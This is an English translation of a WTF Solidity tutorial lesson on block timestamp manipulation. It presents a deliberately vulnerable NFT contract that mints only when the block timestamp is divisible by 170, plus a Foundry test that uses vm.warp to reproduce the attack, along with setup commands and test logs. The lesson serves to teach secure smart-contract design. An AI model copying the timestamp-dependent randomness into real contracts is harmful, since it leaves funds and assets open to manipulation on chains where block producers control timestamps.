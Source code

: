 ```yaml
---
title: S14. Block Timestamp Manipulation
tags:
  - solidity
  - security
  - timestamp
---
```


# WTF Solidity S14. Block Timestamp Manipulation

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy\_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the block timestamp manipulation attack on smart contracts and reproduce it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked.

## Block Timestamp

Block timestamp is a `uint64` value contained in the Ethereum block header, which represents the UTC timestamp (in seconds) when the block was created. Before the merge, Ethereum adjusts the block difficulty according to the computing power, so the block time is not fixed, and an average of 14.5s per block. Miners can manipulate the block timestamp; after the merge, it is changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp.

In Solidity, developers can get the current block timestamp through the global variable `block.timestamp`, which is of type `uint256`.

## Vulnerable Contract Example

This example is modified from the contract in [WTF Solidity S07. Bad Randomness](https://github.com/AmazingAng/WTF-Solidity/tree/main/32_Faucet). We changed the condition of the `mint()` minting function: it can only be successfully minted when the block timestamp can be divided by 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Constructor: Initialize the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: Only mint when the block timestamp is divisible by 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduce on Foundry

Attackers only need to manipulate the block timestamp and set it to a number that can be divided by 170, and they can successfully mint NFTs. We choose Foundry to reproduce this attack because it provides cheatcode to modify the block timestamp. If you are not familiar with Foundry/cheatcode, you can read the [Foundry tutorial](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) and [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

1. Create a `TimeManipulation` contract variable `nft`.
2. Create a wallet address `alice`.
3. Use the cheatcode `vm.warp()` to change the block timestamp to 169, which cannot be divided by 170, and the minting fails.
4. Use the cheatcode `vm.warp()` to change the block timestamp to 17000, which can be divided by 170, and the minting succeeds.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

After installing Foundry, start a new project and install the openzeppelin library by entering the following command on the command line:

```shell
forge init TimeMnipulation
cd TimeMnipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copy the code of this lesson to the `src` and `test` directories respectively, and then start the test case with the following command:

```shell
forge test -vv --match-test testMint
```

The test result is as follows:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

We can see that when we modify `block.timestamp` to 17000, the minting is successful.

## Summary

In this lesson, we introduced the block timestamp manipulation attack on smart contracts and reproduced it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked. After the merge, Ethereum changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp. Therefore, this type of attack will not occur on Ethereum, but it may still be encountered on other public chains.
